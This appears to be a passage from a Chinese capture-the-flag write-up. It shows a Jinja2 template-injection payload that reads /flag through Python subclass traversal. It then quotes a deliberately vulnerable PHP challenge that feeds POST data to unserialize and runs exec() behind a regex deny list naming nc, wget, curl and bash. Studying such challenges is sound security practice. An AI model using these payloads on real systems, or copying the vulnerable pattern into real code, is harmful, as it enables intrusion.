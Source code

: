 ![](./images/1697554638-image.png)

通过数组来索引他， 没什么难度

```
#payload
?name={% print(().__class__.__bases__[0].__subclasses__()[99]["get_data"](0,"/flag")) %}
```

### R!!!C!!!E!!!

源码如下👇

```
 <?php
highlight_file(__FILE__);
class minipop{
    public $code;
    public $qwejaskdjnlka;
    public function __toString()
    {
        if(!preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $this->code)){
            exec($this->code);
        }
        return "alright";
    }
    public function __destruct()
    {
        echo $this->qwejaskdjnlka;
    }
}
if(isset($_POST['payload'])){
    //wanna try?
    unserialize($_POST['payload']);
} 
```
